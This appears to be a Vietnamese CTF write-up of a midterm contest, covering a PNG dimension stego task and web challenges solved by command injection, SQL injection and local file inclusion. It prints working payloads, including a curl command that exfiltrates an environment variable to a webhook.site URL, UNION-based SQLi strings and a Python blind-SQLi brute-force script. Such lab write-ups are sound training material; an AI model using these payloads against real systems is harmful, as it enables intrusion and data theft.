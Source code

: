 # midterm-test-W1-writeup

## [Forensics] DIMENSION

### Challenge
> Yet Another Stego Challenge<br/>
> [Attachment](https://cnsc.uit.edu.vn/ctf/files/657606fdb5faa98550bbdb665f794a44/attachment.zip?token=eyJ1c2VyX2lkIjo2MTUsInRlYW1faWQiOm51bGwsImZpbGVfaWQiOjEwMH0.ZLzsTA.3lJIkLTyxMF8Pd1n5uvdClmMM6A)

### Solution
- Ở đây đề bài cho 1 file ảnh với kích thước `0x0` kết hợp cùng tên đề bài mình đoán sẽ sửa 8 byte chiều dài và rộng để khôi phục lại bức ảnh ban đầu.
- Tool mình sử dụng ở đây là [png-dimensions-bruteforcer](https://github.com/cjharris18/png-dimensions-bruteforcer), điều chỉnh range bruteforce lên xíu ta sẽ thu được kết quả.
![](images/2023-07-23-16-14-05.png)
![](images/2023-07-23-16-14-49.png)
```
Flag: W1{d1meNsiOn_i5_cO0l_r19ht?}
```

## [Web] HEAD1

### Challenge
> [http://45.122.249.68:20018/](http://45.122.249.68:20018/)<br/>
> [Attachment](https://cnsc.uit.edu.vn/ctf/files/8f80fff2c153912fc5322388b2b69332/head1.zip?token=eyJ1c2VyX2lkIjo2MTUsInRlYW1faWQiOm51bGwsImZpbGVfaWQiOjEwNn0.ZLyUUw.qKuUDVqRmiQZwgtJUrvXOP3X2ZQ)

### Solution
```php
<?php

if (strpos($_SERVER['REQUEST_URI'], '_')) {
    die("no no no");
}

if (isset($_GET['input_data'])) {
    $output = shell_exec("curl --head " . $_POST['input_data']);
    echo $output;
}

show_source(__FILE__);
```
- Ở bài này source code khá đơn giản đầu tiên là mình phải bypass được ký tự `_` trong `input_data`, thì ở đây đơn giản ta chỉ cần **URL encode** ký tự `_` sẽ bypass được điều kiện đầu tiên.
- Sang với điều kiện thứ 2, trong đầu mình đặt ra 1 câu hỏi là làm sao có thể truyền cùng lúc data cho `$_GET` và `$_POST`, giải pháp là ta sẽ sử dụng lệnh `curl` với option `-d` hoặc có thể gửi trực tiếp request thông qua `BurpSuite`

![](images/2023-07-23-10-06-39.png)
- Câu lệnh hoàn chỉnh như sau: `curl -d input_data=%3Bls%20%2F http://45.122.249.68:20018/\?input%5fdata\=`
- Request sẽ được gửi dưới dạng như sau
```http
POST /?input%5fdata= HTTP/1.1
Host: 45.122.249.68:20018
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.5112.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
Content-Length: 22
Content-Type: application/x-www-form-urlencoded

input_data=%3Bls%20%2F
```
- Kết quả nhận được là
![](images/2023-07-23-10-14-34.png)

```
Flag: W1{ez_head1_huh}
```

## [Web] HEAD2

### Challenge
> [http://45.122.249.68:20019/](http://45.122.249.68:20019/)<br/>
> [Attachment](https://cnsc.uit.edu.vn/ctf/files/a6750a769d391094b4fa05b349cea45e/head2.zip?token=eyJ1c2VyX2lkIjo2MTUsInRlYW1faWQiOm51bGwsImZpbGVfaWQiOjEwNH0.ZLyglw.YagF13lszTqadAdn95aq2a9FKK8)

### Solution
```php
<?php

if (isset($_GET['input_data'])) {
    $output = shell_exec("curl --head " . $_GET['input_data']);
    // echo $output;
}

show_source(__FILE__);
```
- Ở bài này thì ta truyền vào được `OS Command` nhưng câu hỏi đặt ra là *Làm sao để đọc được kết quả ra đây?*
- Thì ở đây đầu tiên ta kiểm tra thấy sever không chặn kết nối ra ngoài, vậy nên giải pháp ở đây sẽ là đọc file và gửi nó ra ngoài Internet và bắt lại là xong.
- Payload: `; echo $FLAG | curl https://webhook.site/bb145fec-1626-4da3-b695-7cc86b11e295 --data-binary @-;`

```
Flag: W1{webhook_not_so_bad_huh?}
```

## [Web] DEJAVU

### Challenge
> Bài này quen quen 🐳 <br/>
> [http://45.122.249.68:20017/](http://45.122.249.68:20017/)<br/>
> [Attachment](https://cnsc.uit.edu.vn/ctf/files/e68f2b74721ee7ce9863f1b983508161/dejavu.zip?token=eyJ1c2VyX2lkIjo2MTUsInRlYW1faWQiOm51bGwsImZpbGVfaWQiOjEwM30.ZLykUA.6cORsdHqk08qta_RVa7jUtuBp2s)

### Solution
- Bài này khá tương tự với 1 bài đã giải trong traning, cơ bản **flag** gồm 3 phần nằm hết ở database.
![](images/2023-07-23-10-56-15.png)
- Sơ qua về trang web thì ở trang `index.php` sẽ cung cấp cho ta 1 form login và qua file `login.php` khi ta đăng nhập thành công sever sẽ redirect qua `/news.php`. Ở dòng 13 ta có thể thực hiện **SQL Injection** để bypass qua phần login.
![](images/2023-07-23-10-58-50.png)
- Có 1 chú ý là ở file `news.php`, sever sẽ kiểm tra xem `$_SESSION['username']` của chúng ta có phải là `admin` hay không nên payload để **SQLi** phần login sẽ như sau:
    - `username`: `admin`
    - `password`: `' UNION SELECT username,password FROM users WHERE username='admin`
- Ở `/news.php` có 1 đoạn code khá *nhạy cảm* giúp chúng ta có thể truyền vào biến `$_GET['name']` qua đó có thể đọc nội dung từ database.
![](images/2023-07-23-11-04-09.png)
- Payload cho **Part 1**: `' UNION SELECT flag, flag FROM secret -- `
![](images/2023-07-23-11-07-36.png)
- Ở **Part 2** thì flag nằm trong 1 bảng ta chưa biết tên nên ta có thể sử dụng payload `' UNION SELECT table_name, column_name FROM INFORMATION_SCHEMA.COLUMNS -- ` để in ra thông tin bao gồm tên các bảng và cột.
![](images/2023-07-23-11-09-50.png)
- Payload cho **Part 2**: `' UNION SELECT flag_5959595959408498_5959595959408498, flag_5959595959408498_5959595959408498 FROM secret_8489498498112318_8489498498112318 -- `
![](images/2023-07-23-11-10-34.png)
- Ở **Part 3** thì flag là mật khẩu của tài khoản `admin`, ở đây cách để khai thác sẽ là `bruteforce`. Xoá cookie đang có để reset `$_SESSION` rồi bruteforce password từ trang `login.php`. Script bruteforce như sau: *(ban đầu mình bruteforce theo kiểu truyền thống thì độ phức tạp khá lớn, hết giải có người anh chỉ điểm nên mình áp dụng binsearch giúp giảm độ phức tạp đi khá nhiều)*
```py
import requests

# charset = string.ascii_letters + string.digits + string.punctuation
url = "http://45.122.249.68:20017/login.php"


def check(pos, operator, mid):
    data = {
        "username": f"admin' AND ASCII(SUBSTRING((SELECT password FROM users WHERE username = 'admin'), {pos}, 1)) {operator} {mid} -- ",
        "password": "abc",
    }
    r = requests.post(url, data=data)
    return r.url == "http://45.122.249.68:20017/news.php"


def bin_search(pos):
    # Giới hạn trên mình tự tăng bằng tay vì trong flag có thêm icon nên mình sẽ tăng từ từ.
    l, h = 0, 262144
    while h - l > 1:
        m = l + h >> 1
        if check(pos, ">", m):
            l = m
        else:
            h = m
    return chr(h) if check(pos, "=", h) else None


passwd = ""
found = False
while not found:
    found = True
    c = bin_search(len(passwd) + 1)
    if c:
        passwd += c
        found = False
        print("Password: ", passwd)
        if c == "}":
            break
```
![](images/2023-07-23-15-58-12.png)
```
Flag: W1{part1_part2_part③_ⓓⓔⓙⓐⓥⓤ_福🐳😁}
```

## [Web] SIMPLE STUFF

### Challenge
> Trang báo này đăng nhiều tin hay phết, dù là toàn gen từ ChatGPT... nhưng mà khoan đã, hình như trang web này có vấn đề gì đó... Bạn có thể tìm ra vấn đề của trang web này không? <br/>
> [http://45.122.249.68:20020/](http://45.122.249.68:20020/)<br/>
> [Attachment](https://cnsc.uit.edu.vn/ctf/files/17d67af31ce59c474ee7f8f8aabc8a39/simple_stuff.zip?token=eyJ1c2VyX2lkIjo2MTUsInRlYW1faWQiOm51bGwsImZpbGVfaWQiOjExNX0.ZL0AJQ.SqIYeU2j6t4AtHEcFTfgnBPKqg8)

### Solution
- Sơ qua về source code thì ở `Dockerfile` của backend thì ta thấy flag nằm ở `/flag.txt`, `Ctrl+Shift+F` thì thấy nội dung của file được sử dụng ở `admin/index.php` vậy thì trước tiên ta cần truy cập được endpoint này.
- Ở file `index.php` của backend ta có thể thấy `$_GET["id"]` được nối chuỗi trực tiếp vào `articles/news` và đoạn code còn sử dụng 1 hàm khá nguy hiểm là `include()`
![](images/2023-07-23-17-44-00.png)
 nên ta có thể `LFI` đến endpoint `admin/index.php` thông qua payload `?id=../../../admin/index.php`
 ![](images/2023-07-23-17-46-46.png)
 - Nội dung của file `/flag.txt` được **XOR** với `username` và gán kết quả vào biến `$_SESSION["id"]`
 ![](images/2023-07-23-18-22-18.png)
 - Giải thích sơ qua về hàm `do_xor`, hàm này thực hiện **XOR** 2 chuỗi nếu `$str_2` có độ dài chưa bằng `$str_1` sẽ thêm `=` vào cuối `$str_2` tới khi 2 chuỗi bằng độ dài. Hàm thực hiện **XOR** lần lượt từng ký tự và nối vào `$result` và dùng `-` để ngăn cách giữa các kết quả.
- Vậy ở đây cần thực hiện `SQLi` để login thành công và có được `$_SESSION["id"]` rồi thực hiện `reverse XOR` và lấy được **flag**.

